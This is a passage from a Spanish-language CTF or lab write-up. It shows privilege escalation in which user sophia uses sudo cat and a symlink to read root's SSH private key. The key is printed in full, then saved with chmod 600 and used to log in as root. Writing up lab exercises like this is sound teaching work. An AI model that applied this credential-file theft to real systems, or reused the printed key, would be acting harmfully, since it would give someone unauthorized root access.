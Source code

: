 > usuario sophia

```shell
sudo cat /home/isabella/.invisible
```

Info:

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAyezVs6KCQ/KFWpEkzDWX3ns/X4lUnh6PnNC2IVg3ciVgLcWF//wb
vlQxI+juYu5qTKVEL1FhkNaas+MlQUxabzOv+SDnCck60BLQbZf46sYHQaTrDyu5zhIWWi
wgPjmic/Ykd2qIQyIpyy9Ru4DiVK4RWLZWM28kb6eB99JTt4GSVEhraJ08hKsgaOi+skNg
S4QG85kG4ghmA1yJpPwzzpIdG4HUic63OXgy+z+pVB5oIEp0YXrCKMN/lBngZjZb9/+0S1
ljKzdcq7m1TOQ1Y04YJNMrxvPJ75d8U5s+m6cRxx5F3dX7oTVmErEAxFmJjdWVChzh81Ca
OnicNjHgrQAAA8hmM8ISZjPCEgAAAAdzc2gtcnNhAAABAQDJ7NWzooJD8oVakSTMNZfeez
9fiVSeHo+c0LYhWDdyJWAtxYX//Bu+VDEj6O5i7mpMpUQvUWGQ1pqz4yVBTFpvM6/5IOcJ
yTrQEtBtl/jqxgdBpOsPK7nOEhZaLCA+OaJz9iR3aohDIinLL1G7gOJUrhFYtlYzbyRvp4
H30lO3gZJUSGtonTyEqyBo6L6yQ2BLhAbzmQbiCGYDXImk/DPOkh0bgdSJzrc5eDL7P6lU
HmggSnRhesIow3+UGeBmNlv3/7RLWWMrN1yrubVM5DVjThgk0yvG88nvl3xTmz6bpxHHHk
Xd1fuhNWYSsQDEWYmN1ZUKHOHzUJo6eJw2MeCtAAAAAwEAAQAAAQEAiCmVXYHLN8h1VkIj
vzSwiU0wydqQXeOb0hIHjuqu0OEVPyhAGQNHLgwV6vIqtjmxIqgbF5FYKlQclAsq1yKGpR
AErQkb4sR4TVEyjYR6TM5mnER6YYuJysT1n667u1ogCvRDWOdUpXiHGEV7ZuYdOR78AYdL
D3n15vjcsmF5JHcftHOxnXraX7JqGXNCoRsMLT/yUOl02ClHsjFql1NTI/Br0GA4xhM/16
RHoRu1itOlWoyF4XSpSUDHW0RVQ/0gm/GyAc9QF6EWZXHfMfW07JvkeQLlndVbnItQ9a3v
ICAAh6zOZWVXpbhCPjjfaWTnwHhhSE3vfxMQQNTJnEghnQAAAIEAjAEzb6Xp6VV1RRaJR3
/Gxo0BRIbPJXdRXpDI3NO4Nvtzv8fX3muV/i+dgYPNqa7cwheSJZX9S7RzXsZTZn1Ywbdw
ahYTVyE9B4Nsen5gekylb59tNwPpCR8sJo6ZIL1GpmkEug+r+0YZyqpZXpG5uhCaSLX1fP
3UnkgqiKuzpvQAAACBAOOlQPW6pWXvULDsiUkilMXY0SNYLupMHJuqnWTuufyNfRthPQF2
gfWwXRjfDmzFoM9vVxJKKSd40696qbmTNnu7I4KyvXkF0OQ3IXIelQIiIcDpDbYd17g47J
IC6dHIQmUib3+whjeTvA5cc21y0EGNHoeNrlknE03dZHaIyfdPAAAAgQDjE3TE17PMEnd/
vzau9bBYZaoRt+eYmvXFrkU/UdRwqjS/LPWxwmpLOASW9x3bH/aiqNGBKeSe2k4C7MWWD5
tllkIbNEJNDtqQNt2NRvhDUOzAxca1C/IySuwoCAvoym5cpZ//EQ/OvWyZRwk3enReVmmd
x7Itf3P39SxqlP2pQwAAAAxyb290QHZpc2lvbnMBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

Aqui podremos ver que esta es la `id_rsa` del usuario `root` ya que hemos creado un enlace `simbolico` hacia dicha carpeta.

```shell
nano id_rsa

#Dentro del nano

<ID_RSA_ROOT>
```

Lo guardamos y establecemos los permisos necesarios, para que se comporte como una `id_rsa`.

```shell
chmod 600 id_rsa
```

Ahora nos conectaremos por `SSH` con el usuario `root`.
